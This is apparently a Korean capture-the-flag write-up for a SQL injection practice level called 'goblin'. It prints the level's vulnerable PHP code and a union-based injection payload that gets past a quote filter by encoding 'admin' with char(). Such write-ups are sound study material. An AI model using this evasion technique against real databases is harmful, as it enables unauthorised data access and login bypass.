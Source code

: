 # goblin

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`preg_match`를 보니 `quote`는 사용을 못할 것 같다. `id`가 `admin`이면 클리어가 되고, `id`는 우리가 직접 주입을 못한다. 아마도 `union based sqli`인 것 같다.

> ?no=13 union select char\(97,100,109,105,110\) `no`에 `where`이 통과되지않도록 값을 넣어주고, `union`을 통해 `admin`의 `id`를 불러 오는 방식이다.

`char(97, 100, 109, 105, 110)`은 `admin`을 뜻한다.

```sql
select id from prob_goblin where id='guest' and no=13 union select char(97,100,109,105,110)
```

이렇게 `admin`이 나와서 clear!

